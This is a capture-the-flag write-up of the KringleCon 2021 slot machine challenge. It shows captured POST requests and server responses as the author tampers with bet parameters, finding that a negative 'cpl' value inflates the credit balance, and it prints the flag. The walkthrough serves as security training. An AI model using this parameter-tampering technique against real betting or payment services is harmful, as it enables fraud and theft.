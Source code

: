 ```yaml
---
title: Slot Machine Investigation
layout: base.njk
description: >
  A short description of page
tags:
  - post
  - KringleCon2021Posts
---
```


# Introduction
This challenge is all about exploiting Jacks slotsystem. Everything can be done in browser and I really reccommend using firefox, simply becuase the interface is less confusing.
The description for this challenge is:
*Test the security of Jack Frost's slot machines. What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.* 
So the flag here is what the troll tells you when you reach over 1000 coins.

# Reconnaissance
The webpage for the slotmachines is amusing. It has no fields you can enter data. You can contorl how much you bet and the bet level, other than that you may spin/autospin or check how much each each troll is worth. With no possibility to enter or manipulate the values from the gui, lets check out the inspector tools.
I want to head on over to the networks tools just to check out the requests my computer is sending.
Appart from the header, I see that this is my payload
```
POST
betamount=1&numline=20&cpl=0.1

RESPONSE
{"success":true,"data":{"credit":98,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":0,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon8","icon6","icon2","icon7","icon9","icon10","icon10","icon4","icon2","icon8","icon6","icon6","icon9","icon6","icon10"],"ActiveIcons":[],"ActiveLines":[]},"response":"Keep playing!"},"message":"Spin success"}
```
Ok so a legitmiate request has the betamount, number of lines we want to play with, and a cpl that I have no idea what does.
But the response tells us that the server pulls the following from its own end, the win amount, free spins, if I have won the jackpot and what trolls appear.

# Enumeration
I tried to combine different fields to try to manipulate the server to give me prizes I didn't have, such as:
```
POST
betamount=1&numline=20&cpl=0.1&HasJackpot=TRUE
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my jackpot)

POST
betamount=1&numline=20&cpl=0.1&credits=1000000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my credits)

POST
betamount=1&numline=20&cpl=0.1&WinAmount=10000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my WinAmount)

POST
betamount=10000&numline=20&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=-10&numline=20&cpl=0,1
RESPONSE
404 invalid betamount

POST
betamount=1&numline=200000&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=1&numline=-20&cpl=0,1
RESPONSE
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It gave me nothing)

POST
betamount=1&numline=20&cpl=99999
RESPONSE
404 not enough credits

POST
betamount=1&numline=20&cpl=-100
RESPONSE
200 OK
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_...
```
Hold up, the last request gave us alot of credits, why?

# The vulneralbility
CPL didn't have the same checks as the others, becuase pre spin it doesn't affect our startcredits. I don't know exactly what it does, but it looks like it is always multiplied with the numline value and affects your total credits. 
Anyway, the flag: 
```
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":-3000,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon3","icon9","icon6","icon4","icon2","icon8","icon1","icon2","icon9","icon6","wild","wild","icon3","wild","icon9"],"ActiveIcons":[1,12,13,14],"ActiveLines":[20]},"response":"I'm going to have some bouncer trolls bounce you right out of this casino!"},"message":"Spin success"}
```
**"I'm going to have some bouncer trolls bounce you right out of this casino!"**

